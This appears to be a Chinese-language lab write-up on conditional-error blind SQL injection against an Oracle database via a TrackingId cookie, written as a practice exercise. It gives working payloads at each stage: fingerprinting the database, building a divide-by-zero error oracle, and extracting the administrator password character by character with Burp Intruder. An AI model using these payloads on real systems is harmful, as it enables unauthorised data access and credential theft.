




参考博客
https://h4cker.zip/post/1ead73/#lab-12


**漏洞原理：** 当应用程序不会将数据库查询结果或原本的数据库报错信息回显在页面上，但**能够处理并区分正常和报错的 HTTP 响应**（例如：正常查询返回 200，触发除零错误返回 500）时，可以通过 `CASE WHEN` 语句结合人为制造的报错（如 `1/0`）来逐位推断数据。
#### 确认注入点与数据库类型

- **探针 1 (通用拼接测试):**
```sql
TrackingId=8YXW3F8JRrXKA6KA'||(SELECT '')||'
```
- _目的：_ 测试 `||` 拼接符是否有效。如果报错，说明可能不支持直接省略 `FROM`（如 Oracle）。
    
- **探针 2 (Oracle 特征测试):**
```sql
TrackingId=8YXW3F8JRrXKA6KA'||(SELECT '' FROM dual)||'
```
- _目的：_ 引入 Oracle 特有的虚拟表 `dual`。如果页面恢复正常，**确认后端数据库为 Oracle**。
#### 阶段二：构造条件错误基底 (核心 Payload)
```sql
TrackingId=8YXW3F8JRrXKA6KA'||(SELECT CASE WHEN 1=1 THEN NULL ELSE TO_CHAR(1/0) END FROM dual)--
```
- _目的：_ 构建 `CASE WHEN [条件] THEN [正常结果] ELSE [触发报错] END` 的结构。此处 `1/0` 会触发除零错误（Divide by zero）。通过修改 `1=1` 为 `1=2`，观察页面的 HTTP 状态码变化，确立 True/False 的判断依据。
#### 阶段三：探测表名与目标数据

- **验证表名存在:**
```sql
TrackingId=8YXW3F8JRrXKA6KA'||(SELECT CASE WHEN exists(select * from users) THEN NULL ELSE TO_CHAR(1/0) END FROM dual)-- ;
```
- **验证目标用户存在 (判断逻辑的演进):**
    
    1. _(初级)_ `WHEN (select username from users where username='administrator')='administrator'`：容易因为返回多行数据而意外报错。
        
    2. _(进阶)_ `WHEN (select count(*) from users where username='administrator')>0`：通过统计行数判断，规避了多行报错问题。
        
    3. _(最优)_ `WHEN exists(select * from users where username='administrator')`：**推荐写法**。`exists` 只要找到一条匹配记录就会立刻返回 True，效率最高，且天然免疫多行返回的问题。
        

#### 阶段四：获取密码长度

- **Payload:**
```sql
TrackingId=8YXW3F8JRrXKA6KA'||(SELECT CASE WHEN (select length(password) from users where username='administrator')=§1§ THEN NULL ELSE TO_CHAR(1/0) END FROM dual)-- ;
```
#### 阶段五：逐位爆破密码 (字符猜解)

- **Payload:**
```sql
TrackingId=8YXW3F8JRrXKA6KA'||(SELECT CASE WHEN (select substr(password,§1§,1) from users where username='administrator')='§a§' THEN NULL ELSE TO_CHAR(1/0) END FROM dual)--
```
- _操作技巧：_ 使用 Burp Intruder 的 Cluster Bomb 模式。
    
    - Payload 1 (`§1§`): 密码字符的位置（1 到 上一步测出的长度）。
        
    - Payload 2 (`§a§`): 密码字符的可能性（a-z, 0-9 等字典）。
        
    - 最终通过状态码过滤（比如只看返回 200 的请求），然后像你上一问那样按 Payload 1 排序，拼接出完整的密码。







